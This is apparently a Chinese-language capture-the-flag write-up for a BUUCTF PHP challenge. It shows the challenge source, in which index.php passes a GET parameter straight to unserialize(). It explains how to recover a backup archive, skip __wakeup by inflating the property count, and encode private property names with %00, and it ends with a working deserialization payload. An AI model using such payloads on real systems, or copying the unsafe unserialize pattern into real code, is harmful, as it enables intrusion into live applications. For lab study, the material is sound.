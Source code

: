 ```yaml
---
title: PHP
tags: PHP
description: buu PHPwp
---
```

# BUU-PHP
## 爆破目录下载源码
查看网址，通过备份网站的线索可以想到是可以通过爆破目录下载源码的，我们直接尝试www.zip，获得源码。
![](./img/Snipaste_2024-01-05_23-28-10.png)
## 代码审计
源码，我们获得了flag.php，经过尝试是一个假flag，于是接着进行代码审计。

```php
#index.php
<!DOCTYPE html>
<head>
  <meta charset="UTF-8">
  <title>I have a cat!</title>
  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/meyer-reset/2.0/reset.min.css">
      <link rel="stylesheet" href="style.css">
</head>
<style>
    #login{   
        position: absolute;   
        top: 50%;   
        left:50%;   
        margin: -150px 0 0 -150px;   
        width: 300px;   
        height: 300px;   
    }   
    h4{   
        font-size: 2em;   
        margin: 0.67em 0;   
    }
</style>
<body>
<div id="world">
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 85%;left: 440px;font-family:KaiTi;">因为每次猫猫都在我键盘上乱跳，所以我有一个良好的备份网站的习惯
    </div>
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 80%;left: 700px;font-family:KaiTi;">不愧是我！！！
    </div>
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 70%;left: 640px;font-family:KaiTi;">
    <?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
    </div>
    <div style="position: absolute;bottom: 5%;width: 99%;"><p align="center" style="font:italic 15px Georgia,serif;color:white;"> Syclover @ cl4y</p></div>
</div>
<script src='http://cdnjs.cloudflare.com/ajax/libs/three.js/r70/three.min.js'></script>
<script src='http://cdnjs.cloudflare.com/ajax/libs/gsap/1.16.1/TweenMax.min.js'></script>
<script src='https://s3-us-west-2.amazonaws.com/s.cdpn.io/264161/OrbitControls.js'></script>
<script src='https://s3-us-west-2.amazonaws.com/s.cdpn.io/264161/Cat.js'></script>
<script  src="index.js"></script>
</body>
</html>

```
```php
#class.php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```
我们可以看到index.php中要求我们用`get`请求传入一个`select`参数并将其反序列化。

在`class.php`中我们可以看到得到flag的方法是将`usename`赋值为`admin`，将`password`赋值为`100`。
![](./img/Snipaste_2024-01-06_00-01-54.png)
### 绕过`__wakeup`魔术方法
由于`__wakeup`函数会在一个 class 被反序列化完成后调用，而根据代码逻辑，在`__wakeup`函数里会修改`username`为`guest`，因此思考如何跳过`wakeup`魔术方法：
`_wakeup()函数漏洞原理：当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行。`
我们将
```
O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}
```
改成
```
O:4:"Name":3:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}
```
#### 私有变量
解决了绕过魔术方法是之后，我们还发现usename和password是私有变量。PHP 反序列化时私有变量的格式是 s:12:"\0类名\0变量名"，其中 \0 是不可见字符，表示 ASCII 码为 0 的字符。当用 get 传参时，URL 中不能包含不可见字符，否则会被忽略或者导致错误。因此，私有变量需要将\0改成 %00 来表示不可见字符，即经过 URL Encode，例如 s:12:"%00类名%00变量名"。
传入Payload:
```
O:4:"Name":4:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```